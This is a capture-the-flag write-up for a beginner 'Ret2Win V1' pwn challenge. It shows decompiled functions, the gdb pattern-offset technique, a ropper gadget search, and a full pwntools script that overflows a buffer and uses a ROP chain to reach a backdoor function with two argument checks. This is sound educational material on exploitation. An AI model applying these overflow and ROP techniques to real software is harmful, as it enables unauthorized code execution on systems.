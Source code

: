 ## Ret2Win V1

Description: Baby pwn, enjoy!<br>
Author: h4ckyou<br>
Solves: 4

# Ret2Win V1

*Solved by: Logs*

This is a buffer overflow to the win(backdoor) function with key ckecks
Decompiling the binary

The challenge() function
 
![image](https://github.com/user-attachments/assets/c5a2af60-c0c2-484e-bcd5-2b16776c0140)

The first part asks us a question “Would You like to give any feeback” and our input local_d goes through a string compare, which compares it to the string “yes”. We give “yes” as the first input and the the feedback() function is called.


feedback()
 
![image](https://github.com/user-attachments/assets/908a6014-f9ad-4428-8d5e-f07e94fd1251)


The feedback function ask for another input using the read function which accepts a total of 96 bytes
0x60 = 96. 
And the function we are trying to get into, the backdoor() function

backdoor()

 ![image](https://github.com/user-attachments/assets/57031cf2-fff6-43bb-8974-6d0ecddd8780)


From here on I just attempted to try a buffer overflow, first finding the offset to the $rsp register. 
I load binary up in gdb-gef, the generate an string length of 100 with “pattern create 100”. 
Next I use ran the program, and gave it the first input “yes”, then the second input will be the pattern of 100 strings create. Which then overflowed the buffer. 

 ![image](https://github.com/user-attachments/assets/379321c0-b674-4f1e-8c34-551bff0a98a5)


With this I was able to get the offset for the overflow.


I also noticed a function in the binary called helper() Which looked like this. 
 
![image](https://github.com/user-attachments/assets/c86427ff-6529-41a9-a641-4b1c769226ca)

This will be helpful I crafting out solve script because, after overwriting the return address to the backdoor, the backdoor will also perform a check on two parameters, with values
```0xdead``` and ```0xbeef``` respectfully

Using ropper on the binary
```
ropper -f ret2win1 --search='pop rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ret2win1
0x0000000000401358: pop rdi; pop rsi; ret; 
0x00000000004014e3: pop rdi; ret;
```

So we have to load the values ```0xdead``` and ```0xbeef``` into ```0x0000000000401358: pop rdi; pop rsi; ret;```


Have all that now we write our solve script. 
```python
python
from pwn import *
# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg

continue
'''.format(**locals())

# Binary filename
exe = './ret2win1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 56
io.sendline('yes')
# pop_rdi = p64(0x4014e3)  # Address of 'pop rdi; ret'
# pop_rsi_r15 = p64(0x4014e1)  # Address of 'pop rsi; pop r15; ret'

pop_rdi_rsi = p64(0x401358)

param_1 = 0xdead # First parameter
param_2 = 0xbeef  # Second parameter

payload = flat({
    offset: [
        pop_rdi_rsi,  # Pop the next value to RDI
        param_1,  # Pop the next value to RSI (and junk into R15)
        param_2,
        p64(elf.sym['backdoor'])
    ]
})

io.sendline(payload)
io.interactive()
```
Running the script we got the flag

